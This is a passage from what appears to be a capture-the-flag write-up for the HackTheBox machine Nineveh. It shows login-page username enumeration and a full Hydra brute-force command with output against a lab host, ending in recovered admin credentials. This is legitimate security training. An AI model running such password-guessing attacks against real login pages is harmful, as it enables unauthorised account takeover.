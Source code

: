 When you try to login with a name that doesn't exist (for example v3ded) you will get a message saying: `invalid username`. Notice the difference in the image below where I try to login as admin: 

<img src="/img/blog/htb-nineveh/htb-nineveh-03.png">

The login page is telling us which users exist and which do not! Isn't that awesome? After confirming that the *admin* username is correct I start a bruteforce attack via Hydra.
```console
root@EdgeOfNight:~# hydra 10.10.10.43 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password!" -V

Hydra v8.5 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.
Hydra (http://www.thc.org/thc-hydra) starting at 2017-12-15 15:52:15
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking service http-post-form on port 80
[DATA] with additional data /department/login.php:username=^USER^&password=^PASS^:Invalid Password!
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "abc123" - 10 of 14344399 [child 9] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "nicole" - 11 of 14344399 [child 10] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "daniel" - 12 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "babygirl" - 13 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "monkey" - 14 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "lovely" - 15 of 14344399 [child 14] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "jessica" - 16 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "654321" - 17 of 14344399 [child 15] (0/0)
... [Many attempts later] ...
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "candys" - 4579 of 14344399 [child 12] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "bonnie1" - 4580 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.10.43 - login "admin" - pass "1truelove" - 4581 of 14344399 [child 8] (0/0)
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
```

It "only" took 10 minutes until the correct password showed on my screen - `admin:1q2w3e4r5t`. Upon logging in we are present with an under-construction admin dashboard: 

